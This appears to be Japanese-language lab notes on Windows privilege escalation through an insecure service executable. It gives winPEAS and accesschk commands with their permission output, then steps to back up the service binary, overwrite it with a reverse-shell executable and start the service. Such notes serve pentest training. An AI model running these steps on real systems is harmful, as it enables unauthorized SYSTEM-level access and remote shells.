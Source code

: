 安全でないサービス実行可能ファイル   
元のサービス実行ファイルがユーザによって変更可能である場合、単純にリバースシェル実行ファイルに置き換えることができます。  
元の実行ファイルのバックアップを作成することを忘れないでください。
# Privilege Escalation
1. winPEASを実行し、サービスの設定ミスをチェックします。
```
> .\winPEASany.exe quiet servicesinfo
```
2. "filepermsvc "サービスには、誰でも書き込み可能と思われる実行ファイルがあることに注意してください。   
これはaccesschk.exeで確認できます。
```
> .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
.\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
	FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
	FILE_ALL_ACCESS
  RW BUILTIN\Administrators
	FILE_ALL_ACCESS
  RW MSEDGEWIN10\IEUser
	FILE_ALL_ACCESS
  RW BUILTIN\Users
	FILE_ALL_ACCESS
#変更できるか確認
PS> .\accesschk.exe /accepteula -uvqc filepermsvc
.\accesschk.exe /accepteula -uvqc filepermsvc
filepermsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
	SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
	SERVICE_ALL_ACCESS
  R  Everyone
	SERVICE_QUERY_STATUS
	SERVICE_QUERY_CONFIG
	SERVICE_INTERROGATE
	SERVICE_ENUMERATE_DEPENDENTS
	SERVICE_START
	SERVICE_STOP
	READ_CONTROL
```
3. 元のサービス実行ファイルのバックアップを作成する。
```
> copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
```
4. リバースシェルの実行ファイルをコピーして、サービスを上書きします。実行ファイルを上書きする。
```
> copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
```
5. Kali でリスナーを起動し、サービスを起動します。
```
> net start filepermsvc
```
